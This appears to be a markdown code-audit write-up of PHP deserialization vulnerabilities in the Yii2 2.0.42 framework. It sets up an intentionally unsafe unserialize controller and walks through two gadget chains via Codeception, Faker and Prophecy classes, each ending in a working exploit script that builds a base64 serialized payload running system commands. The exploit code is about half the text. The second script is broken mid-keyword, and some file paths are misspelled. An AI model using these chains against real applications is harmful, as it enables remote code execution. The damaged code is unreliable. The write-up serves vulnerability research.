

# Yii2.0.42 Code Audit

Author: H3rmesk1t

#Environmental construction
> Modify the `cookieValidationKey` in `config\web.php` to any value to be used as the encrypted value of `yii\web\Request::cookieValidationKey`. If it is not set, an error will occur.

> Add a `Controller` to act as a trigger for the deserialization vulnerability

```php
<?php

namespace app\controllers;
use yii\web\Controller;

class DemoController extends Controller{
    public function actionDemo($data){
        return unserialize(base64_decode($data));
    }
}
```

# Vulnerability Analysis
> Search the global search for `__destruct()` to find the trigger points for deserialization. After checking each `__destruct()` method, I found that many of the starting points that can be exploited have been added to the `__wakeup()` method to patch the vulnerabilities of deserialization.


## POC Chain-1
> Follow up on the `__destruct()` method in `vendor\codeception\codeception\ext\RunProcess.php`, which will call the `stopProcess()` method and flip the `$this->processes` array variable first. Since the `$process` variable is controllable, you can further find the utilization chain by looking for the `__call()` method.


> Follow up on the `__call()` method in `vendor\fakerphp\faker\src\Faker\ValidGenerator.php`. There is the `call_user_func()` method in the while statement. Since `$this->validator` is controllable, when `$res` is controllable, it can cause the use of the command execution function. Therefore, you need to find the `__call()` method in a class to return a controllable variable value.


> Follow up on the `__call()` method in `vendor\fakerphp\faker\src\Faker\DefaultGenerator.php`, whose return value is a controllable variable value, successfully forming a closed utilization chain


### exp
```php
<?php

namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($payload) {
			$this->default = $payload;
		}
	}
	class ValidGenerator {
    	protected $generator;
    	protected $validator;
    	protected $maxRetries;
    	public function __construct($payload) {
    		$this->generator = new DefaultGenerator($payload);
    		$this->validator = "system";
    		$this->maxRetries = 1;
    	}
	}
}

namespace Codeception\Extension {
	use Faker\ValidGenerator;
	class RunProcess {
		private $processes = [];
		public function __construct($payload="") {
			$this->processes[] = new ValidGenerator($payload);
		}
	}
	echo base64_encode(serialize(new RunProcess("calc")));
}
?>
```

### POC chain utilization flow chart


## POC Chain-2
> The starting point remains unchanged. Follow up on the `__call()` method in `vendor\phspec\prophecy\src\Prophecy\Prophecy\ObjectProphecy.php`, which will call a `reveal()` method, and `$this->revealer` is controllable



> After trying to automatically call the method in other classes without using this method, I found that it cannot be used. Therefore, I followed up with the `reveal()` method in this class. Here `$this->lazyDouble` is controllable and can be assigned to the class with the `getInstance()` method


> Follow up on the `getInstance()` method in `src/Prophecy/Doubleer/LazyDouble.php`, both `$this->double` and `$this->arguments` are controllable. There is no difference between the statements that progress into if judgment here. The final method is the same, and `$this->double` is controllable. Follow up on the `double()` method, confirm that the class of the method exists, and then instantiate the class to `$this->double`. The assignment of `$this->class` and `$this->interfaces` needs to be determined based on the parameter type of the `double()` method.


> Continue to follow up on the `double()` method in `src/Prophecy/Doubler/Doubler.php`, first use the `ReflectionClass` class to build the reflection class of the exception handling class to avoid exception throwing in the code, so as to call the `createDoubleClass()` method


> Continue to follow up on the `createDoubleClass()` method in the `Double` class. Here, the `$name` and `$node` can be constructed arbitrarily using the `__call()` method in the `DefaultGenerator` class, so as to enter the `create()` method.


> Follow up on the `create()` method. `$node` needs to be a `Node\ClassNode` class object. Here, you can use the `eval()` method to insert code execution, or use the same method to make `$code` controllable and instantiate it into a `DefaultGenerator` class object


### exp
```php
<?php
namespace Faker {
	class DefaultGenerator {
		protected $default;
		public function __construct($cmd) {
			$this->default = $cmd;
		}
	}
}

namespace Prophecy\Doubler\Generator {
	use Faker\DefaultGenerator;
	class ClassCreator {
		private $generator;
		public function __construct($cmd) {
			$this->generator = new DefaultGenerator($cmd);
		}
	}
}

namespace Prophecy\Doubler\Generator\Node {
	class ClassNode {}
}

namespace Prophecy\Doubler {
	use Faker\DefaultGenerator;
	use Prophecy\Doubler\Generator\ClassCreator;
	use Prophecy\Doubler\Generator\Node\ClassNode;
	class Doubler {
		private $namer;
		private $mirror;
	    private $creator;
	    public function __construct() {
	    	$this->namer = new DefaultGenerator("H3rmesk1t");
	    	$this->mirror = new DefaultGenerator(new ClassNode());
	    	$this->creator = new ClassCreator("system('calc.exe');");
	    }
	}
}

namespace Prophecy\Doubler {
	use Prophecy\Doubler\Doubler;
	CLA
ss LazyDouble {
		private $class;
		private $doubler;
	    private $argument;
	    private $interfaces;
	    public function __construct() {
	    	$this->doubler = new Doubler();
	        $this->argument = ["H3rmesk1t" => "H3rmesk1t"];
	        $this->class = new \ReflectionClass('Exception');
	        $this->interfaces[] = new \ReflectionClass('Exception');
	    }
	}
}

namespace Prophecy\Prophecy {
	use Prophecy\Doubler\LazyDouble;
	class ObjectProphecy {
		private $revealer;
		private $lazyDouble;
		public function __construct($cmd) {
			$this->revealer = $cmd;
			$this->lazyDouble = new LazyDouble();
		}
	}
}


namespace Codeception\Extension {
	use Prophecy\Prophecy\ObjectProphecy;
	class RunProcess {
		private $processes;
		public function __construct() {
			$cmd = new ObjectProphecy("H3rmesk1t");
			$this->processes[] = new ObjectProphecy($cmd);
		}
	}
	echo base64_encode(serialize(new RunProcess()));
}
?>
```

### POC chain utilization flow chart
